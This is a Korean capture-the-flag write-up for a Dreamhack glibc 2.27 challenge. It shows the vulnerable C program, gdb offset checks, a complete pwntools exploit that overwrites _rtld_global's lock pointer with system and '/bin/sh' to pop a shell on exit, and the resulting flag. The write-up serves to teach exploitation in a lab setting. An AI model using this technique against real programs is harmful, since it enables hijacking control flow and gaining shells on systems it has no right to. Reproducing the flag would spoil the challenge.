



# B1 · Overwrite _rtld_global

### 1. 문제 확인

`pwnable` 분류의 B1 문제. glibc 2.27 환경에서 임의 주소에 임의 값을 쓸 수 있는 기능이 반복해서 주어진다. `__free_hook`/`__malloc_hook` 대신 `_rtld_global`(ld.so의 구조체)을 덮어 프로그램 종료 경로에서 `system("/bin/sh")`을 호출시킨다.

<p align="center">
  
</p>

### 2. 코드

```c
int main() {
  long addr;
  long data;
  int idx;
  init();
  printf("stdout: %p\n", stdout);   // libc 주소 누출
  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:                       // 임의 주소 쓰기
        printf("addr: "); scanf("%ld", &addr);
        printf("data: "); scanf("%ld", &data);
        *(long long *)addr = data;
        break;                      // switch만 탈출 -> while 계속 반복
      default:                      // 1 아닌 값 -> return 0 (종료)
        return 0;
    }
  }
}
```

- `stdout`을 출력해줘서 libc 주소가 새어나온다.
- `idx == 1`이면 8바이트 임의 쓰기. `break`는 `switch`만 빠져나가므로 `1`을 반복해서 **여러 번** 쓸 수 있다.
- `idx != 1`이면 `return 0` → 종료. 이 종료 경로가 공격 트리거다.

### 3. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

p = remote('host3.dreamhack.games', 18047)
libc = ELF('./libc-2.27.so')
ld   = ELF('./ld-2.27.so')

# 1) stdout 누출 -> libc_base -> ld_base
p.recvuntil(b': ')
stdout = int(p.recvuntil(b'\n'), 16)
libc_base = stdout - libc.symbols['_IO_2_1_stdout_']
ld_base   = libc_base + 0x3f1000

# 2) 덮을 대상 주소
system = libc_base + libc.symbols['system']
rtld_global            = ld_base + ld.symbols['_rtld_global']
dl_load_lock           = rtld_global + 2312
dl_rtld_lock_recursive = rtld_global + 3840

def write(addr, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'addr: ', str(addr).encode())
    p.sendlineafter(b'data: ', str(data).encode())

# 3) /bin/sh 와 system 심기
write(dl_load_lock, u64(b'/bin/sh\x00'))
write(dl_rtld_lock_recursive, system)

# 4) 종료 트리거 (idx != 1)
p.sendlineafter(b'> ', b'2')
p.interactive()
```

아래는 이 코드의 주소가 어디서 왔고, 무엇을 덮는지 본 것이다.

### 4. 오프셋 계산과 이유

| 값 | 계산 | 왜 구하는가 |
|----|------|-------------|
| `libc_base` | `stdout - _IO_2_1_stdout_` | ASLR로 libc가 매번 다른 주소에 올라간다. `stdout` 누출값은 libc의 `_IO_2_1_stdout_` 심볼을 가리키므로, 그 심볼 오프셋을 빼면 libc 적재 베이스. 이게 있어야 `system` 실주소를 구한다. |
| `ld_base` | `libc_base + 0x3f1000` | 덮을 대상(`_rtld_global`, lock들)은 전부 **ld.so** 안에 있는데 프로그램은 libc만 누출한다. ld 베이스를 직접 못 구하니, 같은 빌드에서 고정인 libc↔ld 간격으로 환산한다. 간격은 vmmap에서 `ld 시작 - libc 시작`으로 측정. |
| `system` | `libc_base + system` | 최종적으로 호출시킬 함수. |
| `rtld_global` | `ld_base + _rtld_global` | 덮을 구조체의 시작 주소. |
| `dl_load_lock` | `rtld_global + 2312` | 구조체 내부 멤버 위치. `/bin/sh`를 심을 곳. |
| `dl_rtld_lock_recursive` | `rtld_global + 3840` | 구조체 내부 함수 포인터 위치. `system`으로 덮을 곳. |

멤버 오프셋 `2312`, `3840`과 간격 `0x3f1000`은 gdb로 직접 확인한 값이다.

```text
pwndbg> p &_rtld_global._dl_load_lock
$1 = 0x228968 <_rtld_local+2312>
pwndbg> p &_rtld_global._dl_rtld_lock_recursive
$2 = 0x228f60 <_rtld_local+3840>
pwndbg> p/x 0x7ffff7dd5000 - 0x7ffff79e4000   # ld 시작 - libc 시작
$1 = 0x3f1000
```

(`_rtld_local`과 `_rtld_global`은 같은 구조체다.)

### 5. 덮는 과정 순서

프로그램 종료 경로는 이렇게 흐른다.

```text
exit()  ->  _dl_fini()  ->  _dl_rtld_lock_recursive(&_dl_load_lock)
```

마지막 호출이 핵심이다. 호출되는 함수는 함수 포인터 `_rtld_global._dl_rtld_lock_recursive`이고, 그 인자(rdi)는 `&_rtld_global._dl_load_lock`이다. 이 구조를 그대로 `system("/bin/sh")`로 치환한다.

1. `_dl_load_lock` 위치에 `/bin/sh` 기록 → 종료 시 이 주소가 함수의 첫 인자로 들어가므로, 인자 = `/bin/sh` 문자열이 된다.
2. `_dl_rtld_lock_recursive` 함수 포인터를 `system` 주소로 덮음 → 호출될 함수 = `system`이 된다.
3. `idx`에 1 아닌 값(`2`)을 보내 `return 0` → 종료 트리거 → `_dl_fini`가 `system(&_dl_load_lock)` = `system("/bin/sh")` 실행.

즉 `_dl_rtld_lock_recursive(&_dl_load_lock)`에서 **함수 포인터 → system**, **그 인자 → /bin/sh**로 바꿔치기하는 것이다.

> 참고: 이 방법은 쓰기가 여러 번 되기 때문에 가능하다. 쓰기가 1번뿐인 문제라면 `/bin/sh`를 심을 2번째 쓰기를 못 하므로, 함수 포인터를 libc one_gadget으로 덮어 쓰기 1번으로 끝낸다(단, 그 호출 지점에서 one_gadget 제약조건이 맞아야 한다).

### 6. 실행 결과

<p align="center">
  
</p>

```text
DH{a5bd416ee5f23da9f378c1b5d177b99366141f93beb3eabfa5b74abcf83f4293}
```

위 값을 DreamHack 문제 페이지의 FLAG 입력란에 붙여 넣어 제출한다.
